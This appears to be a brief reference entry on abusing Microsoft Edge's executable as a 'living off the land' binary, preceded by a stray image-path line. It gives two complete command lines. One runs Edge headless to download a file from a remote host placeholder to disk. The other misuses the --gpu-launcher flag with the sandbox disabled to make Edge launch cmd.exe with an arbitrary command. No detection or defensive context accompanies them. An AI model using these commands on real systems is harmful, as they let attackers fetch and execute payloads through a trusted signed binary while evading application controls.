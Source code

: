 ### Download file (will add html declaration)
```
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --enable-logging --disable-gpu --dump-dom "https://<rhost>/<file> > <file>
```

### Execute command
```
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c <command> &&"
```

